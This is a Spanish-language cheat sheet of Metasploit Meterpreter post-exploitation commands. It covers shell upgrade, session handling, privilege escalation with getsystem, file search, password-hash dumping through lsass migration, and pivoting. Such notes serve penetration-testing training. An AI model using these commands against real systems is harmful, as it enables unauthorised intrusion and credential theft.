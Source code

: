 # Meterpreter Commands

Tags: #Windows #Comandos #Meterpreter 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 
```

## Comandos con Meterpreter

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 

❯ sysinfo                  # Muestra informacion del Windows 
❯ getuid                   # Miramos el nombre del usuario 
❯ getprivs                 # Miramos los  procesos con privilegios 
❯ getsystem                # Miras los procesos privilegiados 
❯ pgrep explorer           # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc          # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 

❯ hashdump                 # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

## Para hacer Pivoting con Metasploit

```bash 
❯ arp                      #
❯ netstat                  # 
❯ route                    # 
❯ portfwd                  # 
```